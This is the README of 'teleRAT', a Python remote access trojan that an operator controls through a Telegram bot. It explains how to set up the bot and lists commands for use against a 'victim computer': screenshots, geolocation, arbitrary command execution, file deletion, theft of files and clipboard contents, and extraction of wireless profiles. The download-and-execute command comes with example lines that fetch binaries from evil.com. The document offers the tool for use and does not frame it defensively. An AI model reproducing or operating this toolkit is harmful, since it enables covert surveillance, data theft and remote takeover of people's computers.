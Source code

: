 # teleRAT

Python based RAT that uses Telegram for sending commands and receiving data to and from a victim computer.


# Setup.py

Insert your API key into the `api` variable inside the setup.py script & run it. This will setup your Telegram chat with your created bot with the necessary commands to avoid inserting each command along with the help message.

Read [here](https://www.teleme.io/articles/create_your_own_telegram_bot?hl=en) to create your own bot and obtain your API token.

## Available Commands

* **/whoami** - returns username. no additional arguments required.
* **/screenshot** - takes screenshots. requires the number of screenshots to take (EX: /screenshot 5 <- to take 5 screenshots)
* **/location** - returns location info (region, state, zip code, estimated coordinates, timezone, country, ip address)
* **/metadata** - returns metadata info about a specified file. requires filepath as an additional argument (EX: /metadata C:\Users\Username\Files\special.java <- will return metadata info about special.java)
* **/execute** - executes specified system command. requires 2 additional arguments: the system command and additional arguments to pass to that system command (EX: /execute cmd.exe {/c,ver} or /execute binary.exe none} in order to execute binary.exe with no arguments)
* **/power** - allows operator to shutoff, hibernate, or restart computer. requires 1 additional argument: hibernate, pd (to power down), or restart (EX: /power pd <- to power down the victim's computer)
* **/ls** - provides operator with directory listing. If no additional argument is provided, it provides directory listing for directory in which malware is. Additional argument of a directory is optional (EX: /ls %APPDATA% <- provides directory listing for APPDATA directory)
* **/delete** - deletes a user specified file. Additional argument of filepath is required (EX: /delete C:\Users\Username\Files\temp.txt <- deletes a file named temp.txt)
* **/wreport** - provides information regarding the wireless profiles the computer has connected to in the past, the drivers, and a list of wireless interfaces.
* **/remotebinary** - download and execute a remote binary. Requires 2 additional arguments: the URL where the binary is and any additional arguments to pass when executing the binary (EX: /remotebinary https://evil.com/file.exe noargs <- execute file.exe with no arguments or /remotebinary https://evil.com/file.exe {-c,-f} <- to execute file.exe with flags c & f)
* **/processes** - returns a list of running processes and services
* **/gather** - return a specified file. requires 1 additional argument: the filepath (EX: /gather C:\Users\username\important\file.xlsx <- grab and upload file.xlsx to Telegram chat)
* **/report** - provides a hardware report & Windows version to operator
* **/playnoise** - plays a user specified noise. available list of noises include: asterisk sound (asterisk), exclamation sound (exclamation), exit sound (exit), hand sound (hand), question sound (question), and beep (beep) (EX: /playnoise beep or /playnoise question)
* **/gatherclip** - returns data currently copied in the victim's clipboard. requires no additional arguments.
* **/messagebox** - will present the victim with a message box. 2 additional arguments are required: caption and title for the window (EX: /messagebox <text> <title>
